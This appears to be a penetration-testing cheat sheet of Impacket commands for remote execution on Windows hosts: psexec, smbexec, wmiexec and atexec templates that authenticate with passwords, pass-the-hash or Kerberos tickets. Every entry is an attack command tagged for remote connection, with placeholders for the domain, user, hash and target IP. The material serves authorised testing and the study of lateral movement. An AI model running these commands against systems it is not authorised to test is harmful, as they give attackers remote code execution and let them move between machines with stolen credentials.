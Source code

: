 # impacket

% impacket, windows, exec

## PSEXEC with username
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
psexec.py <domain>/<user>:<password>@<ip>
```

## PSEXEC with pass the Hash (pth)
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
psexec.py -hashes <hash> <user>@<ip>
```

## PSEXEC with kerberos
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
export KRB5CCNAME=<ccache_file>; psexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```

## SMBEXEC with username
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
smbexec.py <domain>/<user>:<password>@<ip>
```

## SMBEXEC with pass the Hash (pth)
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
smbexec.py -hashes <hash> <user>@<ip>
```

## SMBEXEC with kerberos
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
export KRB5CCNAME=<ccache_file>; smbexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```

## wmiexec
#platform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  
Execute a command shell without touching the disk or running a new service using DCOM

```
wmiexec.py <domain>/<user>:<password>@<ip>
```

## wmiexec  with pass the hash (pth) 
#platform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  

Execute a command shell without touching the disk or running a new service using DCOM

```
wmiexec.py -hashes <hash> <user>@<ip>
```

## atexec - execute command view the task scheduler 
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
Using \pipe\atsvc via SMB

```
atexec.py <domain>/<user>:<password>@<ip> "command"
```

## atexec pass the hash (pth)
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
Execute command view the task scheduler (using \pipe\atsvc via SMB)

```
atexec.py -hashes <hash> <user>@<ip> "command"
```
